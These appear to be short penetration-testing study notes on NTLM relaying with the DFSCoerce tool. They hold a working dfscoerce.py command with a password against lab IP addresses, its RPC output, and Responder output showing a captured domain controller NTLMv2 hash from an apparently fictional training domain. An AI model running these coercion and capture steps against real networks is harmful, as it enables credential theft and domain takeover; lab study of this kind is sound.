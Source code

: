 # NTLM\_Relaying

### **DFSCoerce**

Documentation: [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

### MS-DFSNM DFSCoerce

* DFSCoerce abuses the NetrDfsAddStdRoot and NetrDfsRemoveStdRoot methods of Distributed File System (DFS):
* Namespace Management Protocol (MS-DFSNM);
* (DFSCoerce does not seem capable of coercing HTTP NTLM authentication)
* https://github.com/Wh04m1001/DFSCoerce

```
python3 dfscoerce.py -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' 172.16.117.30 172.16.117.3 
[-] Connecting to ncacn_np:172.16.117.3[\PIPE\netdfs] 
[+] Successfully bound! 
[-] Sending NetrDfsRemoveStdRoot! NetrDfsRemoveStdRoot ServerName: '172.16.117.30\x00' RootShare: 'test\x00' ApiFlags: 1
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

#### Responder

* don't forget to start responder so you can capture the ntlm credential

```
[SMB] NTLMv2-SSP Client : 172.16.117.3 
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\DC01$ 
[SMB] NTLMv2-SSP Hash : DC01$::INLANEFREIGHT:e2d2339638fc5fd6:D4979A923DD76BC3CFA418E94958E2B0:010100000000000000E0550D97C<SNIP>
```
